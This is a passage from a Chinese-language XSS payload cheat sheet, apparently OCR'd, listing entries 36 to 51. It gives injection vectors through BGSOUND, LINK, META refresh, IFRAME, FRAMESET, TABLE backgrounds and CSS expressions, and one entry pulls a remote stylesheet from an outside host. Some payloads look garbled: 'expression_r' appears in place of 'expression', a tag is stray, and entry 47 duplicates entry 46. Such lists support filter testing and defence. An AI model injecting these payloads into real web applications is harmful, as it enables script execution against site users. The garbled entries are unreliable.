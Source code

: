 (36) BGSOUND

    <BGSOUND SRC=”javascript:alert(‘XSS’);”>

(37) STYLE sheet

    <LINK REL=”stylesheet” HREF=”javascript:alert(‘XSS’);”>

(38) 远程样式表

    <LINK REL=”stylesheet” HREF=”http://3w.org/xss.css”>

(39) List-style-image(列表式)

    <STYLE>li {list-style-image: url(“javascript:alert(‘XSS’)”);}</STYLE><UL><LI>XSS

(40) IMG VBscript

    <IMG SRC=’vbscript:msgbox(“XSS”)’></STYLE><UL><LI>XSS

(41) META链接url

    <META HTTP-EQUIV=”refresh” CONTENT=”0;
    URL=http://;URL=javascript:alert(‘XSS’);”>

(42) Iframe

    <IFRAME SRC=”javascript:alert(‘XSS’);”></IFRAME>

(43) Frame

    <FRAMESET><FRAME SRC=”javascript:alert(‘XSS’);”></FRAMESET>

(44) Table

    <TABLE BACKGROUND=”javascript:alert(‘XSS’)”>

(45) TD

    <TABLE><TD BACKGROUND=”javascript:alert(‘XSS’)”>

(46) DIV background-image

    <DIV STYLE=”background-image: url(javascript:alert(‘XSS’))”>

(47) DIV background-image后加上额外字符(1-32&34&39&160&8192-8&13&12288&65279)

    <DIV STYLE=”background-image: url(javascript:alert(‘XSS’))”>

(48) DIV expression

    <DIV STYLE=”width: expression_r(alert(‘XSS’));”>

(49) STYLE属性分拆表达

    <IMG STYLE=”xss:expression_r(alert(‘XSS’))”>

(50) 匿名STYLE(组成:开角号和一个字母开头)

    <XSS STYLE=”xss:expression_r(alert(‘XSS’))”>

(51) STYLE background-image

    <STYLE>.XSS{background-image:url(“javascript:alert(‘XSS’)”);}</STYLE><A
    CLASS=XSS></A>
